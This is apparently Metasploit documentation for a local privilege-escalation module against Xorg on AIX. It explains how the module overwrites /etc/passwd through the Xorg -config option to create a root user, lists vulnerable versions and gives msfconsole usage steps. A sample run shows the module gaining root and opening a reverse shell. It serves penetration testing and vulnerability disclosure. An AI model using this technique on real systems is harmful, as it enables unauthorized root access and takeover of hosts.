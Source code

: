 ## Description

This module is a port of the OpenBSD X11 Xorg exploit to run on AIX. A permission check flaw exists for -modulepath and -logfile options when starting Xorg. This allows unprivileged users that can start the server the ability to elevate privileges and run arbitrary code under root privileges. This module has been tested with AIX 7.1 and 7.2, and should also work with 6.1. Due to permission restrictions of the crontab in AIX, this module does not use cron, and instead overwrites /etc/passwd in order to create a new user with root privileges. All currently logged in users need to be included when /etc/passwd is overwritten, else AIX will throw 'Cannot get "LOGNAME" variable' when attempting to change user. The Xorg '-fp' parameter used in the OpenBSD exploit does not work on AIX, and is replaced by '-config', in conjunction with ANSI-C quotes to inject newlines when overwriting /etc/passwd.

## Vulnerable Application

This module has been tested successfully on:

* AIX 7.1 with Xorg 7.2.3.0
* AIX 7.2 with Xorg 7.2.3.0

This table lists all vulnerable Xorg versions:

| Lower Level | Upper Level |
|-------------|-------------|
| 6.1.9.0     | 6.1.9.100   |
| 7.1.4.0     | 7.1.4.30    |
| 7.1.5.0     | 7.1.5.31    |
| 7.2.0.0     | 7.2.0.1     |
| 7.2.1.0     | 7.2.1.0     |
| 7.2.2.0     | 7.2.2.0     |
| 7.2.3.0     | 7.2.3.15    |

## Verification Steps

1. `msfconsole`
2. Get a session
3. `use exploit/aix/local/xorg_x11_server`
4. `set session <session>`
5. `set LHOST <lhost>`
6. `set LPORT <lport>`
7. `set writabledir <writabledir>`
8. `run`

## Options

**SESSION**

Which session to use, which can be viewed with `sessions`

**WritableDir**

A writable directory file system path. (default: `/tmp`)

## Scenarios
https://vimeo.com/372193921

```
msf5 exploit(aix/local/xorg_x11_server) > set session 1
session => 1
msf5 exploit(aix/local/xorg_x11_server) > set writabledir /tmp
writabledir => /tmp
msf5 exploit(aix/local/xorg_x11_server) > run

[*] Started reverse TCP handler on 0.0.0.0:8888
[*] Xorg version is 7.2.3.0
[*] Retrieving currently logged in users
[*] Writing to /tmp/wow.ksh
[*] Backing up /etc/passwd to /tmp/passwd.backup
[*] Executing /tmp/wow.ksh
[*] Checking if we are root
[+] Got root!
[*] Writing to /tmp/wowee.ksh
[*] Executing shell payload
[*] Restoring original /etc/passwd
[*] Command shell session 2 opened (172.17.0.2:8888 -> 172.17.0.1:32948) at 2019-02-11 15:42:56 +0000
[+] Deleted /tmp/wow.ksh
[+] Deleted /tmp/passwd.backup
[+] Deleted /tmp/wowee.ksh

id
uid=0(root) gid=0(system)

```
